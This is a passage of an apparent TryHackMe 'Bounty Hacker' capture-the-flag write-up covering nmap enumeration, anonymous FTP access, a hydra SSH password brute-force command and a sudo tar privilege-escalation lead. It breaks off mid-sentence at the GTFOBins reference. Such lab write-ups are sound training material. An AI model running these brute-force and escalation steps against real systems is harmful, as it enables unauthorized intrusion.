 ## Bounty Hunter TryHackMe

### Enumeration 

After a quick nmap scan we get this result:

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.119.138
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dcf8dfa7a6006d18b0702ba5aaa6143e (RSA)
|   256 ecc0f2d91e6f487d389ae3bb08c40cc9 (ECDSA)
|_  256 a41a15a5d4b1cf8f16503a7dd0d813c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.91 seconds



```

From the results we see that FTP service running on Port 21, SSH on Port 22 and an http server on Port 80. 

On inspection of ftp I discovered that it allow anonymous login. After logging in I discovered two files locks.txt and task.txt.

Command to login into ftp

``ftp HOST_IP``

I encountered an issue with passive mode in ftp. To fix this simply enter the command ``passive`` to disable it. 
After that we can download the files we found using ``get``. 

In the ``locks.txt`` file we seem to have a list of passwords and in `task.txt` is a message that seems to reveal a potential username we can use to login to the machine using the running ssh service.

Contents of task.txt file:
```
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin

```

To brute force and find the correct login we can use the tool hydra and the locks.txt file as a password list. 

Hydra Command:
Using lin as the username
``hydra -s 22 -l lin -P locks.txt 10.10.14.43 ssh -t 5``

After running the command were able to find the correct ssh password for lin. 
Using these credentials we can login into the machine as the user lin. 



### Escalation 


We are able to login succesfully as lin. Now its time to escalate privileges.

Using the ``sudo -l`` command we can see what commands we can run with super(root) rights. 

```
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar



```

From the above command we can see that we can run tar commands as root. Using [GTFOBINS(https://gtfobins.github.io/)



